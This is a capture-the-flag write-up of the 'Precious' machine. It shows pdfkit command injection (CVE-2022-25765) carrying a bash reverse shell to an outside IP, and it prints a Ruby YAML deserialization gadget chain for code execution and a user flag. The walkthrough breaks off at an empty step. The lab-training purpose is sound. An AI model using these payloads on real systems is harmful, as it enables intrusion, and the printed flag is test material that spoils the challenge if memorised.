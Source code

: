 # Precious
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
1. First, scan all open ports and it's services from the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211276690-4fe354b9-3638-442c-9480-5805e5c76317.png)


2. Notice the machines seems running a web application, let's open the host on the web browser.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211276928-1b29c212-2439-47e0-bb58-720df75f81ff.png)


3. Let's enter `http://google.com`.

> RESULT


![image](https://user-images.githubusercontent.com/70703371/211277475-e4846599-d902-479b-b914-f14759cebfd4.png)


4. Already tried to enter my own ip but didn't get any pdf.
5. Let's serve http on port 8000 first.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211278408-539b23c8-4444-4b66-b25c-523dbc65ae6c.png)


![image](https://user-images.githubusercontent.com/70703371/211278442-8bd11666-3bf6-4d31-9e18-6631343ef3ca.png)


6. Great! We got it.
7. Check the meta data, to see if we can grab any clue.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211278752-fed9eaf3-6a3e-4eba-9701-42d0d4a7db02.png)


8. Notice the version of pdfkit is outdated and it's vulnerable.

> WRITTEN IN CVE MITRE

```
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25765
```

9. Hence i did a small outsource about the approach they used for this vuln, found this link.

```
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
```

![image](https://user-images.githubusercontent.com/70703371/211280009-f3ea6bd2-9dcb-4218-9a6c-21564f5b39a0.png)


10. Let's use this payload.

![image](https://user-images.githubusercontent.com/70703371/211281122-658a8d9e-aeef-4b09-9790-90346f7bc779.png)


![image](https://user-images.githubusercontent.com/70703371/211281160-fc388b59-a2b1-4090-ae7c-4f14b5cbe665.png)



11. But change the "sleep" to this:

> REVERSE SHELL FOR BASH

```
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/443 <&1'
```

> FULL PAYLOAD

```
http://10.10.14.12:8000/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/443 <&1'`'}
```

12. Set a listener using pwncat for port 443 because we use it on the payload, then submit the payload.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211281893-6d255475-b83c-4d5a-a4b4-95e1dca8bb68.png)


13. Nice, got the shell!

![image](https://user-images.githubusercontent.com/70703371/211282031-5b3733aa-a97b-43d1-ba4f-bdd2c5a8d20a.png)


14. Since we're not root, let's find the **user** flag.
15. Actually it took a while for me, i didn't find the user flag, but when i found a cred.

> CRED

![image](https://user-images.githubusercontent.com/70703371/211282795-4ac4805d-0d06-479e-a546-b724ade8623b.png)


![image](https://user-images.githubusercontent.com/70703371/211282841-1ab9201b-0882-42dc-b3db-a58d6251d0bb.png)


![image](https://user-images.githubusercontent.com/70703371/211282892-0983fd9a-a908-4ded-81a6-fd7d9c1e4aed.png)


16. Let's try login to henry with ssh.

> LOGGED IN

![image](https://user-images.githubusercontent.com/70703371/211283134-5b91c51d-bac1-4347-b43c-a4b5accd3f04.png)


![image](https://user-images.githubusercontent.com/70703371/211283181-d5f3768e-9de6-4663-8da5-1e92a3a7d620.png)


![image](https://user-images.githubusercontent.com/70703371/211283211-6ab3fdc2-86c6-4b6d-8e9f-0fe35035fc81.png)


17. Got the user flag.

## FLAG

```
3e73f31984a909e91e2952956243e048
```

18. Now for the root flag, we need to do privilege escalation.

![image](https://user-images.githubusercontent.com/70703371/211283528-aa43f568-2da8-4446-8dd2-9f03df4ef2f8.png)


![image](https://user-images.githubusercontent.com/70703371/211283681-9058d08a-0cb8-476d-85b1-a0ed887b1b1f.png)


![image](https://user-images.githubusercontent.com/70703371/211283919-d9f6f185-50df-428a-93cd-c0ea01e8b8e3.png)


19. Got a clue here:

![image](https://user-images.githubusercontent.com/70703371/211284959-72f6a994-de97-43dc-bdb6-7ddde19ab333.png)


20. Maybe we can do RCE through YAML upload file.
21. I did a small outsource about this yaml exploit. Turns out find [this](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) website and there's a ruby script to do RCE.

> THE SCRIPT

```rb
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```

22. 

